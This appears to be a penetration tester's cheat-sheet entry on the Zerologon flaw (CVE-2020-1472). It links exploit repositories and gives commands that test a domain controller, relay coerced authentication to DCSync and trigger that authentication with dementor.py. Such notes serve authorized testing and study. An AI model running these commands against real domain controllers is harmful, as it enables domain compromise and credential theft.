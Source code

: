 # Zerologon

**CVE-2020-1472**

* [https://www.secura.com/uploads/whitepapers/Zerologon.pdf](https://www.secura.com/uploads/whitepapers/Zerologon.pdf)
* [https://twitter.com/\_dirkjan/status/1306280566313156608](https://twitter.com/_dirkjan/status/1306280566313156608)
* [[PDF] Understanding and Exploiting Zerologon (Lucideus)](https://dl.packetstormsecurity.net/papers/general/Understanding_and_Exploiting_Zerologon.pdf)

Check:

* [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)

```
$ python3 zerologon_tester.py DC01 10.10.13.38
```

Exploit:

* [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)
* [https://github.com/blackarrowsec/redteam-research/tree/master/CVE-2020-1472](https://github.com/blackarrowsec/redteam-research/tree/master/CVE-2020-1472)

Exploits above **will break the domain!** Use this technique by @dirkjanm to abuse Zerologon safely:

* [https://dirkjanm.io/a-different-way-of-abusing-zerologon/](https://dirkjanm.io/a-different-way-of-abusing-zerologon/)

```
$ sudo ntlmrelayx.py -t dcsync://DC01.megacorp.local -smb2support
$ python dementor.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' 10.10.13.37 DC02.megacorp.local
```
